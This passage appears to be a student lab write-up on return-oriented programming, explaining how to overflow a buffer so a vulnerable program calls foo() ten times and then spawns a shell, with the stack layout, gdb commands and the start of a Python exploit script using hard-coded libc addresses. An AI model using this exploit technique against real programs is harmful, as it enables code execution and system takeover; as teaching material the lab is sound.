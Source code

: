 The ROP technique has gained significant popularity due to its effectiveness against modern security measures, such as NX and DEP, as it leverages existing code rather than injecting new code into protected memory regions. However, it requires a deep understanding of the target system's memory layout and instruction set to identify suitable gadgets and construct a successful ROP payload.

#### Invoke foo() 10 times before spawing a shell.

This task asks students to work on a special case of ROP. In the vulnerable program, there is a function called foo(), which is never called in the program. That function
is intended for this task. The student's job is to exploit the buffer-overflow problem in the program, so when the program returns from the bof() function, it invokes foo() 10 times before spawing a shell.

The stack will be built as:

```
Address of the /bin/sh string
Address of the exit() function
Address of the system() function
Address of the foo() function
Address of the foo() function
Address of the foo() function
Address of the foo() function
Address of the foo() function
Address of the foo() function
Address of the foo() function
Address of the foo() function
Address of the foo() function
Address of the foo() function (this will overwrite the original return address)
```

The address of `foo()` can be obtained by runnning the vulnerable program in gdb and executing the following:

```nasm
b main
run
p foo
```

The exploit can be created using the following python code

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values up to $ebp
# $ebp - &buffer = 22
content = bytearray(0xaa for i in range(22))

# Function to set endianess
def tobytes(value):
    return value.to_bytes(4,byteorder='little')

# Record the addresses
system_addr = 0xf7e12420        # The address of system()
exit_addr   = 0xf7e04f80        # The address of exit()
sh_addr     = 0xf7f5c352        # The address of "/bin/sh"
foo_addr    = 0x565562b0        # The address of foo()
popret      = 0x56556022        # The address of pop; ret gadget

###########################################################################
# The stack is built the following way from high address to low address:  #
# Address of the /bin/sh string                                           #
# Address of the exit() function                                          #
# Address of the system() function                                        #
# Address of the foo() function                                           #
# Address of the foo() function                                           #
```